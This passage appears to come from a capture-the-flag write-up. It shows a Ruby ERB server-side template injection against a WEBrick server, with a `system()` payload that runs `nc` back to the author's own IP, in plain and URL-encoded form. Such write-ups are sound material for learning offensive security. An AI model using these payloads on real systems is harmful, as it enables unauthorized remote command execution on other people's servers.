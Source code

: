 <figure><img src="../../../../../.gitbook/assets/imagen (12).png" alt=""><figcaption></figcaption></figure>

We can inject code to the page and as i mentioned before, the server is running Ruby WEBrick so we can try a Server Side Templade Injection (SSTI).

To do this, we only have to add to the payload the next command:&#x20;

```
<%= system("SYSTEM COMMAND HERE") %>
```

I'm gonna try a simple `nc` reverse connection to test if the command is being executed.

The final result should look like this:

{% code title="Plain Text" %}
```ruby
 <%= system("nc 10.10.14.3 6969") %>
```
{% endcode %}

{% code title="URL Encoded" %}
```url
%20%3c%25%3d%20%73%79%73%74%65%6d%28%22%6e%63%20%31%30%2e%31%30%2e%31%34%2e%33%20%36%39%36%39%22%29%20%25%3e
```
{% endcode %}
